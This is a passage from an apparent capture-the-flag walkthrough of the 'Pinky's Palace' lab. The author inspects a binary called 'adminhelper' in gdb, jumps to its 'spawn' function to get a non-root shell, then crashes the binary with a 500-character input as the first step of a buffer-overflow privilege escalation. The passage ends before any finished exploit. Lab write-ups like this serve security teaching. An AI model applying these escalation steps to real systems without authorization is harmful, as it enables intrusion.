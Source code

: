 ```bash
pinky@pinkys-palace:~$ whereis gdb
gdb: /usr/bin/gdb /etc/gdb /usr/include/gdb /usr/share/gdb

pinky@pinkys-palace:~$ gdb -q ./adminhelper 
Reading symbols from ./adminhelper...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000000618  _init
0x0000000000000640  strcpy@plt
0x0000000000000650  puts@plt
0x0000000000000660  execve@plt
0x0000000000000670  setegid@plt
0x0000000000000680  seteuid@plt
0x00000000000006a0  _start
0x00000000000006d0  deregister_tm_clones
0x0000000000000710  register_tm_clones
0x0000000000000760  __do_global_dtors_aux
0x00000000000007a0  frame_dummy
0x00000000000007d0  spawn
0x0000000000000813  main
0x0000000000000860  __libc_csu_init
0x00000000000008d0  __libc_csu_fini
0x00000000000008d4  _fini
```

In the output we can see a spawn function, this one catches my attention, I added a breakpoint in the main function, ran it, and jumped to the spawn function and a dash shell was executed, but we aren't root.

```bash
(gdb) break main
Breakpoint 1 at 0x817
(gdb) run
Starting program: /home/pinky/adminhelper 

Breakpoint 1, 0x0000555555554817 in main ()
(gdb) jump spawn
Continuing at 0x5555555547d4.
process 2365 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
$ whoami
pinky
```

To escalate to root, we need to run our malicious instructions outside of gdb, so I run the binary with 500 characters to provoke a crash.

```bash
(gdb) run $(python -c 'print("A"*500)')  
Starting program: /home/pinky/adminhelper $(python -c 'print("A"*500)')
                                                           
Program received signal SIGSEGV, Segmentation fault.      
next_env_entry (position=<optimized out>) at arena.c:220     
220     arena.c: No such file or directory.
```
